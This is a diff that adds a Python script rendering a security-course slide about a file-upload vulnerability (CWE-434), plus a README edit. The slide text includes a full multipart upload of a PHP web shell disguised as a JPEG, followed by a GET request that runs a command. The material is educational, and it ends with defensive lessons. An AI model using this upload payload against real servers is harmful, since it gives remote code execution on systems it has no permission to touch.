

Hist-01 technical slide: 2× render, Inter/JetBrains, deck title

diff --git a/FileUpload/presentation/historical-cases/_sources/render_hist01_technical_720p.py b/FileUpload/presentation/historical-cases/_sources/render_hist01_technical_720p.py
@@ -1,0 +1,185 @@
+#!/usr/bin/env python3
+"""Regenerate hist-01 technical slide (1280×720) from deck reference + vector overlay."""
+from __future__ import annotations
+
+from pathlib import Path
+
+from PIL import Image, ImageDraw, ImageFont
+
+ROOT = Path(__file__).resolve().parents[1]
+REF = Path(
+    "/home/ubuntu/.cursor/projects/agent-repos-websecurity/assets/"
+    "12d0199c-4687-4009-bc57-ceb13dffe61b.png"
+)
+OUT_720 = ROOT / "illustrations/hist-01-php-shell-technical-720p.png"
+OUT_1080 = ROOT / "illustrations/hist-01-php-shell-technical.png"
+
+# Supersample 2× then downscale for sharp type at 720p
+W, H = 1280, 720
+SS = 2
+SW, SH = W * SS, H * SS
+
+
+def load_font(path: str, size: int) -> ImageFont.FreeTypeFont:
+    return ImageFont.truetype(path, size * SS)
+
+
+def scale_xy(x: float, y: float) -> tuple[float, float]:
+    return x * SS, y * SS
+
+
+def main() -> None:
+    ref = Image.open(REF).convert("RGB")
+    base = ref.resize((SW, SH), Image.LANCZOS)
+    draw = ImageDraw.Draw(base)
+
+    inter_b = "/usr/share/fonts/truetype/macos/Inter-Bold.ttf"
+    inter_sb = "/usr/share/fonts/truetype/macos/Inter-SemiBold.ttf"
+    inter_m = "/usr/share/fonts/truetype/macos/Inter-Medium.ttf"
+    inter_r = "/usr/share/fonts/truetype/macos/Inter-Regular.ttf"
+    mono = "/usr/share/fonts/truetype/jetbrains-mono/JetBrainsMono-Medium.ttf"
+    mono_b = "/usr/share/fonts/truetype/jetbrains-mono/JetBrainsMono-SemiBold.ttf"
+
+    f_title = load_font(inter_b, 38)
+    f_sub = load_font(inter_m, 14)
+    f_box_t = load_font(inter_sb, 15)
+    f_box_s = load_font(inter_r, 12)
+    f_code = load_font(mono, 12.5)
+    f_code_hi = load_font(mono_b, 12.5)
+    f_lesson = load_font(inter_sb, 15)
+
+    # Clean canvas (keep ludzik + corners)
+    draw.rectangle([0, 0, SW, 92 * SS], fill="#ffffff")
+    draw.rectangle([1145 * SS, 95 * SS, SW, 520 * SS], fill="#ffffff")
+    draw.rounded_rectangle(
+        [115 * SS, 88 * SS, 1165 * SS, 625 * SS], radius=22 * SS, fill="#ffffff"
+    )
+    left = ref.resize((SW, SH), Image.LANCZOS).crop((0, 0, 230 * SS, SH))
+    base.paste(left, (0, 0))
+    ref_scaled = ref.resize((SW, SH), Image.LANCZOS)
+    for box in [
+        (0, 0, 200 * SS, 120 * SS),
+        (SW - 200 * SS, 0, SW, 120 * SS),
+        (0, SH - 120 * SS, 200 * SS, SH),
+        (SW - 200 * SS, SH - 120 * SS, SW, SH),
+    ]:
+        base.paste(ref_scaled.crop(box), (box[0], box[1]))
+
+    draw = ImageDraw.Draw(base)
+
+    navy = "#1a365d"
+    muted = "#5a6b7d"
+    card = "#141c2b"
+    card_edge = "#2a3a52"
+
+    # Title matches deck attachment
+    draw.text((SW // 2, 18 * SS), "Skrajnie technicznie", fill=navy, font=f_title, anchor="mt")
+    draw.text(
+        (SW // 2, 62 * SS),
+        "Przypadek 1 · upload image.php jako image/jpeg → RCE (CWE-434)",
+        fill=muted,
+        font=f_sub,
+        anchor="mt",
+    )
+
+    # Code card
+    x0, y0, x1, y1 = 232 * SS, 100 * SS, 790 * SS, 422 * SS
+    draw.rounded_rectangle([x0, y0, x1, y1], radius=18 * SS, fill=card)
+    draw.rounded_rectangle(
+        [x0, y0, x1, y1], radius=18 * SS, outline=card_edge, width=2 * SS
+    )
+
+    lines: list[tuple[str, str, bool]] = [
+        ("POST /avatar/upload HTTP/1.1", "#8fd3b4", False),
+        ("Content-Type: multipart/form-data; boundary=----WebKit", "#8fd3b4", False),
+        ("", "#ffffff", False),
+        ("------WebKitFormBoundary", "#8b9cb3", False),
+        ('Content-Disposition: form-data; name="avatar";', "#e8eef5", False),
+        ('  filename="image.php"', "#e8eef5", False),
+        ("Content-Type: image/jpeg", "#c5d4e8", False),
+        ("", "#ffffff", False),
+        ("GIF89a;", "#7dd3a0", False),
+        ("<?php system($_GET['cmd']); ?>", "#f6ad55", True),
+        ("------WebKitFormBoundary--", "#8b9cb3", False),
+        ("", "#ffffff", False),
+        ("Saved on disk: /uploads/image.php", "#7dd3a0", False),
+        ("GET /uploads/image.php?cmd=whoami HTTP/1.1", "#8fd3b4", False),
+    ]
+    y = y0 + 16 * SS
+    for text, color, bold in lines:
+        if text:
+            font = f_code_hi if bold else f_code
+            draw.text((x0 + 18 * SS, y), text, fill=color, font=font)
+        y += 23.5 * SS
+
+    boxes = [
+        (
+            802 * SS,
+            106 * SS,
+            1155 * SS,
+            196 * SS,
+            "#fde8ef",
+            "#e8b4c4",
+            "1. Upload checks pass",
+            "Part says image/jpeg; file still .php",
+        ),
+        (
+            802 * SS,
+            206 * SS,
+            1155 * SS,
+            296 * SS,
+            "#e3f5e8",
+            "#a8d5b5",
+            "2. GET → mod_php by extension",
+            "Not JPEG sniffing — Apache runs *.php",
+        ),
+        (
+            802 * SS,
+            306 * SS,
+            1155 * SS,
+            396 * SS,
+            "#e6f2fa",
+            "#a8c9e8",
+            "Why GIF89a does not block RCE",
+            "PHP scans whole file for <?php … ?>",
+        ),
+    ]
+    for x0b, y0b, x1b, y1b, fill, edge, title, sub in boxes:
+        draw.rounded_rectangle([x0b, y0b, x1b, y1b], radius=14 * SS, fill=fill, outline=edge, width=1 * SS)
+        draw.text((x0b + 18 * SS, y0b + 14 * SS), title, fill=navy, font=f_box_t)
+        draw.text((x0b + 18 * SS, y0b + 42 * SS), sub, fill=muted, font=f_box_s)
+
+    draw.rectangle([160 * SS, 598 * SS, SW - 160 * SS, SH], fill="#ffffff")
+    draw.rounded_rectangle(
+        [172 * SS, 640 * SS, SW - 172 * SS, 700 * SS], radius=16 * SS, fill="#f5c518"
+    )
+    # shield
+    sx, sy = 210 * SS, 654 * SS
+    draw.polygon(
+        [
+            (sx + 14 * SS, sy),
+            (sx + 28 * SS, sy + 7 * SS),
+            (sx + 28 * SS, sy + 26 * SS),
+            (sx + 14 * SS, sy + 38 * SS),
+            (sx, sy + 26 * SS),
+            (sx, sy + 7 * SS),
+        ],
+        fill=navy,
+    )
+    draw.text(
+        (SW // 2 + 12 * SS, 670 * SS),
+        "Lekcja: lista dozwolona · weryfikacja treści · brak PHP w uploads/",
+        fill=navy,
+        font=f_lesson,
+        anchor="mm",
+    )
+
+    final = base.resize((W, H), Image.LANCZOS)
+    OUT_720.parent.mkdir(parents=True, exist_ok=True)
+    final.save(OUT_720, optimize=True)
+    final.resize((1920, 1080), Image.LANCZOS).save(OUT_1080, optimize=True)
+    print(OUT_720, OUT_1080)
+
+
+if __name__ == "__main__":
+    main()

diff --git a/FileUpload/presentation/historical-cases/README.md b/FileUpload/presentation/historical-cases/README.md
@@ -29,7 +29,7 @@ Each case has a PNG in [`illustrations/`](illustrations/). Case **#1** uses **tw
    - **Change the shop** (defacement, scam page, malware for visitors)
    - **Pivot** — use your server to attack others (spam, bots, mining)
 
-**Technical slide:** [`hist-01-php-shell-technical.png`](illustrations/hist-01-php-shell-technical.png) (deck) or [`hist-01-php-shell-technical-720p.png`](illustrations/hist-01-php-shell-technical-720p.png) — English, watercolor layout like the deck “Extremely technical” slide; full POST multipart + saved path + GET.
+**Technical slide:** [`hist-01-php-shell-technical.png`](illustrations/hist-01-php-shell-technical.png) (deck) or [`hist-01-php-shell-technical-720p.png`](illustrations/hist-01-php-shell-technical-720p.png) — tytuł **Skrajnie technicznie** (jak w decku); HTTP po angielsku; regeneracja: `_sources/render_hist01_technical_720p.py`.
 
 **HTTP (what the slide shows):**
 
